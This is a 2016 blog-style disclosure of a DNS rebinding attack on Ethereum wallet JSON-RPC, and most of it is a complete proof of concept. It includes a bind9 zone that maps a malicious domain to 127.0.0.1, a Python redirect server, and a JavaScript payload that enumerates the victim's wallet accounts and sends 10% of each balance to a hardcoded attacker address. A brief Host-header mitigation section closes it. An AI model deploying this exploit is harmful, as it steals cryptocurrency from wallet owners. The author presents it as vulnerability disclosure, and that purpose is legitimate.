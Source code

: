 !!!
ethereum-wallet-exploit
July 6, 2016
Walking Past Same-origin Policy, NAT, and Firewall for Ethereum Wallet Control
This vulnerability was originally reported to the Etherum Bug Bounty on June 12th, 2016. At the core of this attack is a "DNS Rebinding" vulnerability, in this post I explain the vulnerability, suggest an exploit, and leave you with a complete proof-of-concept solution.
<!--no banner-->
!!!


This vulnerability was originally reported to the Etherum Bug Bounty on June 12th of 2016. I never received a response from the Foundation's Bug Bounty Program so far as I know this may be in the wild still. Really I can't be bothered to report this a second time because I don't want to re-learn how to work with geth. Unfortunate.

## DNS Rebinding
At the core of this attack is a "DNS Rebinding" vulnerability, I remember learning about this years ago from [RSnake](https://twitter.com/rsnake) on either [ha.ckers.org](https://web.archive.org/web/*/ha.ckers.org) or [xssed.com](http://www.xssed.com). A copy of RSnake's original DNS Rebinding exlpainer video can be found [here](https://www.youtube.com/watch?v=FIQGKIE3Fv0). For those already familiar with the concepts of [DNS](https://en.wikipedia.org/wiki/Domain_Name_System) and [Same-origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) the explanation for malicious domain `scam.rhodey.org` is pretty simple:

1. Publish two DNS A Records, one with the legitimate IP address, the other with `127.0.0.1`
2. Direct a victim to visit `http://scam.rhodey.org`
3. Serve some JavaScript *(scam.js)* from `scam.rhodey.org`
4. After serving, blackhole the victim's IP address using iptables
5. All AJAX requests to `scam.rhodey.org` from *scam.js* now hit `127.0.0.1`

DNS Rebinding attacks are so bizarre because all the hostile traffic you'd usually mitigate through NAT or firewall is coming from **inside the network**, and in this case the victim machine is actually attacking itself! This attack makes it past same-origin policy because same-origin works on domain names not IP addresses.

## The Attack
Ethereum nodes and wallets have standardized on [JSON RPC](https://eth.wiki/json-rpc/API), this is what we'll be attacking. Enabling RPC is a prerequisite for using many "DAPPS" (Decentralized Applications) and [Mist Browser](https://github.com/ethereum/mist) (now deprecated) used to enable RPC by default.

## Nameserver Configuration
The nameserver I'm using is [bind9](https://wiki.debian.org/Bind9) and the malicious domain will be `scam.rhodey.org`. It is crucial that the legitimate IP address of `scam.rhodey.org` be served before `127.0.0.1`, to do this you must compile bind9 from source with the `--enable-fixed-rrset` option and set `rrset-order` in your configuration.

```
### /etc/bind/named.conf.options
options {
  directory "/var/cache/bind";
  dnssec-validation auto;
  auth-nxdomain no;
  listen-on-v6 { any; };
  recursion no;
  allow-transfer { none; };
  rrset-order { order fixed; };
};

### /etc/bind/zones/db.rhodey.org
$TTL 1800 
@ IN SOA ns1.rhodey.org. rhodey.anhonesteffort.org. (
  2016061209 ; Serial
  1800       ; Refresh
  180        ; Retry
  2419200    ; Expire
  1800 )     ; Negative Cache TTL

; Name servers
rhodey.org.    IN    NS    ns1.rhodey.org.
rhodey.org.    IN    NS    ns2.rhodey.org.

; Name server A records
ns1    IN    A    173.255.255.43
ns2    IN    A    173.255.255.43

; Other A records
@     IN    A    173.255.255.43
scam  IN    A    173.255.255.43
scam  IN    A    127.0.0.1
```

## Pretty Lil' Redirect
By convention Ethereum JSON RPC uses TCP port `8545` which means to satisfy same-origin policy we'll need to serve the exploit from `8545` as well, but `http://scam.rhodey.org:8545` looks hella shady so we use a [HTTP 307 Redirect](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/307) to bounce `http://rhodey.org` to `http://scam.rhodey.org:8545`.

```python
import BaseHTTPServer
import time

OUR_HOST  = "rhodey.org"
OUR_PORT  = 80
NEXT_HOST = "scam.rhodey.org"
NEXT_PORT = "8545"
REDIRECT  = "http://" + NEXT_HOST + ":" + NEXT_PORT

class RedirectHandler(BaseHTTPServer.BaseHTTPRequestHandler):
  def do_HEAD(s):
    s.send_response(307)
    s.send_header("Location", REDIRECT)
    s.end_headers()
  def do_GET(s):
    s.do_HEAD()

if __name__ == '__main__':
  server_class = BaseHTTPServer.HTTPServer
  httpd        = server_class((OUR_HOST, OUR_PORT), RedirectHandler)
  print time.asctime(), "Server Starts - %s:%s" % (OUR_HOST, OUR_PORT)
  try:
    httpd.serve_forever()
  except KeyboardInterrupt:
    pass
  httpd.server_close()
  print time.asctime(), "Server Stops - %s:%s" % (OUR_HOST, OUR_PORT)
```

## The HTML
After redirecting the victim to malicious domain we serve some very basic HTML.

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>taker</title>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/2.2.0/jquery.min.js"></script>
  </head>
  <body>
    <div id="logDiv"></div>
    <script src="scam.js"></script>
  </body>
</html>
```

## The JavaScript
The JavaScript does a few things:

1. send a HTTP GET request to `http://scam.rhodey.org/goodbye`, triggering the iptables blackhole.
2. retrieve a list of Ethereum wallets via wallet RPC.
3. send `%10` of each wallets balance to my Ethereum wallet.

Between step 1 and 2 the victim's IP address has been blackholed by iptables such that the browser receives [TCP close with RST flag](https://stackoverflow.com/questions/13049828/fin-vs-rst-in-tcp-connections), this causes the browser to move onto the next record for `scam.rhodey.org` which is `127.0.0.1`... rebind complete! Communication between JavaScript and the Ethereum JSON API is made possible by the Ethereum [web3.js](https://web3js.readthedocs.io) library.

```javascript
var BigNumber    = require('big-number');
var DEST_ADDRESS = "0xbd9864678B27C1932831D462ABFF9471f2f8Dd3c";
var web3         = null;
var logHtml      = "";

function log(msg) {
  var logDiv = document.getElementById("logDiv");
  logHtml += ("<br/>" + msg);
  logDiv.innerHTML = logHtml;
}

function getHref() {
  var parts = window.location.href.split("/");
  return parts[0] + "//" + parts[2];
}

function initW3() {
  log("initializing w3...");
  var Web3 = require('web3');
  web3 = new Web3();
  web3.setProvider(new web3.providers.HttpProvider(getHref()));
}

function takeEthFrom(address) {
  log("getting balance for account " + address + "...");
  var balanceWei = web3.eth.getBalance(address);
  var takeWei = balanceWei.div(10);
  var txn = {
    from  : address,
    to    : DEST_ADDRESS,
    value : takeWei
  };

  log("sending transaction -> " + JSON.stringify(txn, null, 2));
  web3.eth.sendTransaction(txn, function(err, result) {
    if (!err) {
      log("transaction succeeded with result -> " + result);
    } else {
      log("transaction failed with error -> " + err);
    }
  });
}

function takeEth() {
  log("getting account list...");
  var accounts = web3.eth.accounts;
  for (var i = 0; i < accounts.length; i++) {
    takeEthFrom(accounts[i]);
  }
}

function sayGoodbye() {
  log("rebinding dns...");
  $.ajax({
    type: 'GET',
    url: '/goodbye',
    success: function(data, status, xhr) {
      initW3();
      takeEth();
    },
    error: function (data, status, error) {
      log("xhr /goodbye failed, status -> " + status + " error -> " + error);
    }
  });
}

sayGoodbye();
```

## Mitigation
Mitigating DNS Rebinding vulnerabilities is very simple: **always check HTTP Host headers**. The malicious HTTP requests that reach the victim wallet have a [HTTP Host Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Host) of `scam.rhodey.org` which should be checked against `localhost` and/or a whitelist. In June 2016 the most popular Ethereum implementation [go-ethereum](https://github.com/ethereum/go-ethereum) did not check host headers.

## Source
Source code for this tutorial has been organized [here](https://github.com/rhodey/ethereum-dns-rebind).
